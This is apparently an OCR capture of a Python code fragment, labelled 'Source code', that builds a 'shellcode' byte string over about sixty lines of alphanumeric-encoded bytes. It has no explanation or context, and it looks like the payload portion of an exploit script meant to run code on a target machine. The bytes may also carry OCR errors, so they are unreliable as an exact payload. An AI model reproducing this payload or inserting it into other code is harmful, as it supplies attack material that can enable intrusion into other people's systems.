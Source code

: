 ```python
shellcode += b"\x65\x71\x5a\x51\x30\x51\x70\x47\x57\x5a\x70"
shellcode += b"\x4e\x73\x72\x33\x4e\x51\x37\x6b\x50\x53\x49"
shellcode += b"\x6f\x6f\x47\x30\x68\x44\x6e\x71\x77\x74\x52"
shellcode += b"\x6f\x4f\x49\x6f\x66\x75\x6f\x64\x71\x58\x61"
shellcode += b"\x34\x69\x71\x79\x70\x79\x70\x5a\x4b\x4f\x45"
shellcode += b"\x32\x30\x6b\x4f\x6d\x67\x4f\x78\x57\x55\x68"
shellcode += b"\x58\x75\x6d\x4a\x47\x39\x6f\x38\x55\x6e\x73"
shellcode += b"\x6e\x73\x62\x33\x34\x4b\x30\x4c\x6d\x54\x6b"
shellcode += b"\x4c\x4e\x71\x50\x53\x51\x43\x4b\x4f\x6d\x67"
shellcode += b"\x73\x38\x58\x46\x76\x4c\x34\x5a\x54\x39\x79"
shellcode += b"\x6f\x67\x65\x5a\x49\x6f\x4d\x79\x71\x6d\x30"
shellcode += b"\x39\x70\x5a\x48\x43\x6f\x6b\x4f\x59\x6f\x39"
shellcode += b"\x6f\x74\x32\x34\x35\x70\x6e\x31\x54\x72\x4c"
shellcode += b"\x52\x4c\x4c\x73\x4e\x52\x6b\x50\x4b\x38\x70"
shellcode += b"\x75\x49\x6f\x4b\x4f\x4b\x4f\x59\x58\x75\x76"
shellcode += b"\x6b\x4f\x49\x6f\x69\x6f\x59\x6c\x39\x58\x72"
shellcode += b"\x62\x39\x70\x4b\x50\x79\x70\x53\x30\x55\x39"
shellcode += b"\x5a\x45\x4c\x71\x75\x70\x50\x64\x54\x4b\x62"
shellcode += b"\x30\x30\x30\x52\x6b\x71\x42\x4a\x6c\x54\x4b"
shellcode += b"\x6e\x72\x4b\x64\x62\x6b\x52\x52\x6e\x48\x4a"
shellcode += b"\x6f\x75\x67\x30\x4a\x6f\x36\x6d\x61\x79\x6f"
shellcode += b"\x36\x4c\x4d\x6c\x71\x51\x71\x6c\x4b\x52\x4e"
shellcode += b"\x4c\x4f\x30\x35\x71\x66\x6f\x6c\x4d\x59\x71"
shellcode += b"\x77\x57\x77\x72\x79\x62\x71\x42\x70\x57\x74"
shellcode += b"\x4b\x51\x42\x6e\x30\x72\x6b\x4f\x5a\x6f\x4c"
shellcode += b"\x54\x4b\x4e\x6c\x6e\x31\x74\x38\x49\x53\x61"
shellcode += b"\x38\x4a\x61\x76\x71\x42\x31\x74\x4b\x51\x49"
shellcode += b"\x4d\x50\x5a\x61\x67\x63\x74\x4b\x61\x39\x6e"
shellcode += b"\x38\x77\x73\x4d\x6a\x6f\x59\x52\x6b\x6c\x74"
shellcode += b"\x52\x6b\x6b\x51\x39\x46\x6d\x61\x6b\x4f\x36"
shellcode += b"\x4c\x66\x61\x56\x6f\x6a\x6d\x4d\x31\x67\x57"
shellcode += b"\x6d\x68\x37\x70\x31\x65\x69\x66\x59\x73\x51"
shellcode += b"\x6d\x38\x78\x4d\x6b\x31\x6d\x4f\x34\x71\x65"
shellcode += b"\x49\x54\x51\x48\x32\x6b\x31\x48\x4c\x64\x5a"
shellcode += b"\x61\x56\x73\x42\x46\x34\x4b\x5a\x6c\x4e\x6b"
shellcode += b"\x44\x4b\x62\x38\x6d\x4c\x59\x71\x48\x53\x62"
shellcode += b"\x6b\x59\x74\x32\x6b\x4a\x61\x58\x50\x53\x59"
shellcode += b"\x71\x34\x6d\x54\x6d\x54\x6f\x6b\x61\x4b\x70"
shellcode += b"\x61\x42\x39\x70\x5a\x6f\x61\x79\x6f\x67\x70"
shellcode += b"\x4f\x6f\x31\x4f\x61\x4a\x52\x6b\x6b\x62\x68"
shellcode += b"\x6b\x44\x4d\x6f\x6d\x72\x48\x6e\x53\x4c\x72"
shellcode += b"\x4b\x50\x39\x70\x53\x38\x31\x67\x64\x33\x6d"
shellcode += b"\x62\x6f\x6f\x72\x34\x42\x48\x70\x4c\x53\x47"
shellcode += b"\x4f\x36\x4b\x57\x69\x6f\x77\x65\x47\x48\x72"
shellcode += b"\x70\x7a\x61\x69\x70\x6b\x50\x6c\x69\x49\x34"
shellcode += b"\x32\x34\x52\x30\x42\x48\x4f\x39\x33\x50\x32"
shellcode += b"\x4b\x69\x70\x4b\x4f\x67\x65\x32\x30\x30\x50"
shellcode += b"\x32\x30\x42\x30\x6f\x50\x32\x30\x51\x30\x4e"
shellcode += b"\x70\x53\x38\x77\x7a\x7a\x6f\x77\x6f\x77\x70"
shellcode += b"\x59\x6f\x6a\x35\x76\x37\x52\x4a\x7a\x65\x52"
shellcode += b"\x48\x69\x7a\x6c\x4a\x6c\x4e\x4b\x69\x6f\x78"
shellcode += b"\x4a\x62\x59\x70\x4b\x6b\x6f\x49\x72\x69\x79"
shellcode += b"\x56\x6f\x7a\x4e\x30\x50\x56\x72\x37\x71\x58"
shellcode += b"\x45\x49\x74\x65\x62\x54\x30\x61\x6b\x4f\x47"
shellcode += b"\x65\x45\x35\x77\x50\x30\x74\x5a\x6c\x69\x6f"
shellcode += b"\x4e\x6e\x59\x78\x42\x55\x7a\x4c\x70\x68\x68"
shellcode += b"\x70\x55\x65\x77\x32\x42\x36\x49\x6f\x49\x45"
shellcode += b"\x73\x38\x73\x33\x30\x6d\x71\x54\x59\x70\x32"
shellcode += b"\x69\x68\x63\x31\x47\x32\x37\x4f\x67\x4d\x61"
shellcode += b"\x59\x66\x52\x4a\x6a\x72\x51\x49\x30\x56\x59"
shellcode += b"\x52\x59\x6d\x72\x46\x49\x37\x4f\x54\x6d\x54"
shellcode += b"\x6f\x4c\x6b\x51\x6a\x61\x32\x6d\x70\x44\x4f"
shellcode += b"\x34\x4c\x50\x48\x46\x79\x70\x4f\x54\x51\x44"
```